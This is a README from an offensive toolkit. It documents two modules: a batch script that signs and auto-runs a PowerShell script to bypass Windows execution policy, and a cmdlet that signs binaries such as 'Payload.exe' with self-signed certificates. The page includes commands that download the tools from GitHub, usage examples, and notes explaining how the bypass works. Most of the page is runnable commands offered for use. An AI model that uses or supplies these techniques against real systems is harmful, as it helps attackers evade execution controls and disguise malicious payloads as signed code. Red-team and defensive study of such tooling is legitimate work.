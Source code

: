 ## Module Name
   <b><i>PSscriptSigning.bat</i></b>

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|PSscriptSigning|Signs one PS1 script ( **certlm.msc - certificate** ) + Auto-Execute it ?<br />This allow us to execute our PS1 cmdlet even if set-executionpolicy<br />its set to only run signed cmdlets [( AllSigned, RemoteSigned )](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7.2)|Administrator|[PSscriptSigning.bat](https://github.com/r00t-3xp10it/redpill/blob/main/bypass/PSscriptSigning.bat)<br />[DeletePSscriptSignning.bat](https://github.com/r00t-3xp10it/redpill/blob/main/bypass/DeletePSscriptSignning.bat)<br />Dependencies: LanManServer|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bypass/PSscriptSigning.bat" -OutFile "PSscriptSigning.bat"
```

<br />

**prerequesites checks:**
```powershell
Get-ExecutionPolicy
[bool](Get-Service -Name LanManServer)
```

```powershell
# Execute the next cmdline to: auto-execute the PS1 after PSscriptSigning.bat have sign it ?
[optional] Add-Content -Path "PSscriptSigning.bat" -Value "`npowershell -W 1 -File %PSsignPath%" -Force

# Execute the batch script that signs our PS1 cmdlet
.\PSscriptSigning.bat
```


**check if (Subject: My_Code_Signing_Certificate) certificate exists:**
```powershell
[manual] Certlm.msc
[auto] $List = @("Root","My");ForEach($Item in $List){Get-ChildItem Cert:\LocalMachine\$Item|Where-Object {$_.Issuer -match 'My_Code_Signing_Certificate'}}
```

<br /><br />

**Delete certificate from store**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bypass/DeletePSscriptSignning.bat" -OutFile "DeletePSscriptSignning.bat"
```

```powershell
.\DeletePSscriptSignning.bat
```

**check if (Subject: My_Code_Signing_Certificate) certificate was deleted:**
```powershell
[manual] Certlm.msc
[auto] Get-ChildItem Cert:\LocalMachine\Root | Where-Object {$_.Issuer -match 'My_Code_Signing_Certificate'}
```

<br />

### Final Notes
```
This BATCH script can sign\execute our cmdlet even if Set-ExecutionPolicy its set to 'AllSigned, RemoteSigned'.
Because executing BATCH scripts its NOT affected by 'Set-ExecutionPolicy' target settings, this allow us to
Sign the cmdlet and then auto-execute it bypassing 'Set-ExecutionPolicy AllSigned,RemoteSigned' restrictions.

The PSscriptSigning.bat script can only be used to sign ONE cmdlet at a time, because it uses
the same Subject Name everytime it signs one cmdlet ( Subject: My_Code_Signing_Certificate )

```

Article: https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/working-with-certificates.md

<br /><br />

## Module Name
   <b><i>Invoke-LazySign.ps1</i></b>

|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-LazySign](https://github.com/r00t-3xp10it/redpill/blob/main/lib/CertSign_PS1/Invoke-LazySign.ps1)|Sign a Windows binary\Cmdlet with a self-signed certificate|Administrator|[Screenshot1](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/CertSign_PS1/Invoke-LazySign.png)<br />[Screenshot2](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/CertSign_PS1/SuperWork.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/CertSign_PS1/Invoke-LazySign.ps1" -OutFile "Invoke-LazySign.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")

#Make sure all the required modules are present\loaded
[bool]((Get-Module -ListAvailable -Name *).ExportedCmdlets|findstr /C:"Set-AuthenticodeSignature")
[bool]((Get-Module -ListAvailable -Name "PKI").ExportedCmdlets|findstr /C:"New-SelfSignedCertificate")
```


```powershell
Get-Help .\Invoke-LazySign.ps1 -full

#Query for ALL certificates in 'Cert:\LocalMachine\My | Cert:\LocalMachine\Root' Store
.\Invoke-LazySign.ps1 -Action "query" -Subject "[a-z 0-9]"

#Query for ALL 'LazySign' certs in 'Cert:\LocalMachine\My | Cert:\LocalMachine\Root' Store
.\Invoke-LazySign.ps1 -Action "query" -Subject "LazySign"

#Sign binary (Payload.exe) with crafted certificate (Subject: LazySign-4zrH Expires: 6 months)
.\Invoke-LazySign.ps1 -Action 'Sign' -Subject "LazySign" -Target "$pwd\Payload.exe" -NotAfter "6"

#Sign binary (Payload.ps1) with crafted certificate (Subject: LazySign-4zrH Expires: 3 months)
.\Invoke-LazySign.ps1 -Action 'sign' -Subject "LazySign" -Target "Payload.ps1" -NotAfter "3"

#Delete the 'LazySign-4zrH' certificate from windows store
.\Invoke-LazySign.ps1 -Action 'del' -Subject "LazySign-4zrH"
```

<br />

## Final Notes
```
Do 'NOT' edit the signed binary\cmdlet after its being signed, or else the certificate code block
inside signed binary\cmdlet will brake, rending the signed binary\cmdlet as 'NOT-SIGNED' again.

Do 'NOT' use Regex when invoking -Action 'del' to delete certificates from the Windows Store.
Because Invoke-LazySign.ps1 cmdlet uses recursive search by default (deleting multiple certs)

This cmdlet will 'NOT' sign our script.ps1 if 'Set-ExecutionPolicy AllSigned,RemoteSigned' are set.
Because ExecutionPolicy will prevent this cmdlet from running. If you wish to bypass the restrictions
then execute the 'PSscriptSigning.bat' batch module contained in this same repository (the first module)

The PSscriptSigning.bat script can only be used to sign 'ONE' cmdlet at a time, because it uses
the same Subject Name everytime it signs one cmdlet ( Subject: My_Code_Signing_Certificate )
```

Article: https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/working-with-certificates.md
